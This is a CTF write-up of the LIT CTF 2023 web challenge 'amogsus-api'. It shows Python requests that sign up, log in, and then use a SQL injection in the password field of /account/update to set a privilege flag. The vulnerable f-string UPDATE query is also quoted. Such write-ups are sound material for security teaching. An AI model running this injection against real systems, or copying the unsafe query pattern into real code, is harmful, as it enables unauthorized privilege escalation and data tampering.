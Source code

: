 # LIT CTF 2023 - amogsus-api

| Category |
|----------|
| `web`    | 

## Challenge:

I'm working on this new api for the awesome game amogsus
There seems to be a vulnerability I missed though...

## Solution:

If we open the page, we get the following JSON response:

```json
{
    "message": "Welcome to the amogsus API! I've been working super hard on it in the past few weeks. You can use a tool like postman to test it out. Start by signing up at /signup. Also, I think I might have forgotten to sanatize an input somewhere... Good luck!"
}
```

Sending another GET to `/signup` does not work, the service replies with a 405 "Method Not Allowed". It's clear, even from the name of this challenge, that this is an API that we need to check out with something else than a browser. I like to use Python for challenges like this. But instead of sending POST request blindly to the route, let's take a look at the challenge's code. (You can find the full code here: [main.py](./assets/files/main.py))

`/signup` seems to expect an `username` and a `password`. That data, as well as `sus = False` is inserted into the database. Fair enough, let's do this:

```python
url = "http://litctf.org:31783"
username = f"pkemkes{random.randint(0, 10**10)}"
password = f"pkemkes{random.randint(0, 10**10)}"

r = requests.post(url + "/signup", data={
    "username": username,
    "password": password
})
print(r.text)
```

This prints the following:

```json
{
    "message": "User created! You can now login at /login"
}
```

Okay. According to the code, `/login` also expects the `username` and the `password`. It creates a session with a unique session token. Let's do that:

```python
r = requests.post(url + "/login", data={
    "username": username,
    "password": password
})
print(r.text)
```

This is the server's response:

```json
{
    "message": "Login successful! You can find your account information at /account. Make sure to provide your token! You should know how to bear your Authorization...",
    "token": "O3Q8UEE9U56AVR93HGDWSS9JWXX71XR0CS69UOSE"
}
```

If we now send a GET request to `/account`, we can get some info about our account. We just need to provide the `token` in a header called `Authorization`. Okay then:

```python
headers = {"Authorization": r.json()["token"]}
r = requests.get(url + "/account", headers=headers)
print(r.text)
```

And here the response:

```json
{
    "message": "Here is your account information! You can update your account at /account/update. The flag can also be found at /flag. You need to be sus to get access tho...",
    "password": "pkemkes710944983",
    "sus": 0,
    "username": "pkemkes6405266515"
}
```

So far so good. There is a `/flag` route. Let's be naive an send a GET:

```python
r = requests.get(url + "/flag", headers=headers)
print(r.text)
```

But that's what the server says about that:

```json
{
    "message": "You need to be an sus to view the flag!"
}
```

Too bad. Okay, let's take a closer look at the server's code. Could there be a potential SQL injection here somewhere?

Yes! In the route that we haven't tested yet: `/account/update`. In contrast to all other SQL queries, it uses an unsafe format string for adding user input into the query:

```python
cursor.execute(f'UPDATE users SET username="{username}", password="{password}" WHERE username="{session["username"]}"')
```

So, we could inject there anywhere. Good thing is, the password can be anything, it does not need to be our current one. So, we can try to send the following request:

```python
r = requests.post(url + "/account/update", headers=headers, data={
    "username": username,
    "password": password + f"\", sus=1 WHERE username = \"{username}\"; -- "
})
print(r.text)
```

If the server behaves as we expect, this should result in the following query:

```sql
UPDATE users SET username="pkemkes6405266515", password="pkemkes710944983", sus=1 WHERE username = "pkemkes6405266515"; -- " WHERE username="{session["username"]}"
```

That should keep username and password the same and simply set our `sus` value to `1`. Let's make sure and ask `/account` again:

```json
{
    "message": "Here is your account information! You can update your account at /account/update. The flag can also be found at /flag. You need to be sus to get access tho...",
    "password": "pkemkes710944983",
    "sus": 1,
    "username": "pkemkes6405266515"
}
```

Awesome! So... Whats the response of `/flag` now?

```json
{
    "message": "Congrats! The flag is: flagLITCTF{redacted}"
}
```

Here is the full solution: [solve.py](./assets/solve.py)
